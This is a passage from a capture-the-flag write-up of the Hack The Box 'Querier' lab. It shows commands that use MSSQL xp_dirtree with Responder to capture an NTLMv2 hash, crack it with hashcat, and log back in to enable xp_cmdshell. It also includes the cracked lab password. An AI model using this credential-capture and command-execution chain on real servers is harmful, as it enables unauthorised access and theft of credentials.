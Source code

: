 ### Capturing user hash with `xp_dirtree` and `responder`

So at this point, we're kind of back to square one right? Well, not really. MSSQL server also gives us a cool function called `xp_dirtree`. This function allows us to list out the contents of a local or network folder, directly from MSSQL. With this, we can setup a `Responder` session to spoof a network share and capture the NTLM hash, and use `xp_dirtree` to request the share.

First, setup `Responder` with `responder.py -I tun0`. This will setup a listener on the `tun0` interface, which will listen for any SMB request, and capture the hash of the requesting machine.

Once that's setup, run the command `xp_dirtree '//10.10.14.4/testshare'` in the SQL command prompt to kick off the `xp_dirtree` function. Now you'll see that `responder` has captured the hash for the `mssql-svc` user!

> Note that `responder` listens for connections to any share name on the IP address it's assigned. So the share name you use doesn't matter at all.

<a href="/assets/htb-querier/responder_hash.png"><img src="/assets/htb-querier/responder_hash.png" width="95%"></a>

Copy the entire hash to a file. We need to run this through `hashcat` to crack the NTLMv2 hash for the password. The command `hashcat -m 5600 loot/mssql-svc_hash /data/rockyou.txt` will kick off the cracking process. It will return a password of `corporate568`.

> Sorry I don't have a screenshot of the `hashcat` process. My host PC wasn't co-operating with the tool when writing this, so I wasn't able to grab a screenshot of the tool in action.

### Using `xp_cmdshell` to get a reverse shell

Now that we have a proper username and password, we can go back to the SQL client to try for `xp_cmdshell` again.

The command `mssqlclient.py QUERIER/mssql-svc@10.10.10.125 -windows-auth` will kick off a new SQL client session as `mssql-svc`. Running `enable_xp_cmdshell` again shows that we can now properly enable the function, and use it to execute code on the system.

![](/assets/htb-querier/mssql_whoami.png)
